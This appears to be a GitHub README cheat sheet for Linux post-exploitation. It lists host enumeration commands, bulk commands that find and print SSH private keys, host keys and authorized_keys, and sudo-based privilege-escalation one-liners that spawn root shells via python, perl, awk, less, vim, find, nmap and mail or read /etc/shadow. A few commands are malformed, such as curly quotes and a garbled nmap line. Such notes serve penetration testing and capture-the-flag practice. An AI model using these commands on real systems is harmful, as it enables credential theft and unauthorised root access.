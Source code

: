 # Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration


## Sudoers - Privesc

##### python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### cp + chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### vim
```
sudo -u victim /usr/bin/vim
puis on tape (pas dans le fichier mais de la même manière que lorsque l'on souhaite quitter vim):
:!/bin/bash
```

##### find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### nmap
```
 sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```
